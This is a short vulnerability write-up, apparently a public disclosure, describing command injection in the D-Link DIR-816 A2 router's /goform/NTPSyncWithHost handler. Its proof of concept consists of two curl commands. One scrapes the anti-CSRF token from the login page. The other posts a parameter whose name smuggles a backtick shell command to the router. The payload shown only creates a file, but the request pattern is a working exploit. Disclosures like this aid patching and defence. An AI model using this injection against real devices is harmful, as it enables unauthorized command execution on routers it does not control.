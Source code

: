 # D-Link DIR-816 A2 Command Injection

**Vender** ：D-Link

**Firmware version**:1.10 B05

**Exploit Author**: nabla@galaxylab.org

**Vendor Homepage**: http://www.dlink.com.cn/

**Hardware Link**:http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-816

## Vul detail ##

In the handler of route `/goform/NTPSyncWithHost`, all parameters are used in the construction of command `date -s %s`:

![](ida.png)

So it could lead to command injection with crafted request.

## POC

There's a random token required by the route, which is used as a mitigation against CSRF. So first we need to get its value:

```bash
TOKENID=`curl -s http://192.168.0.1/dir_login.asp | grep tokenid | head -1 | grep -o 'value="[0-9]*"' | cut -f 2 -d = | tr -d '"'`
```

Then we send the crafted parameter along with the token to the route:

```bash
curl -i -X POST http://192.168.0.1/goform/NTPSyncWithHost -d '`touch /tmp/test`=1' -d tokenid=$TOKENID
```

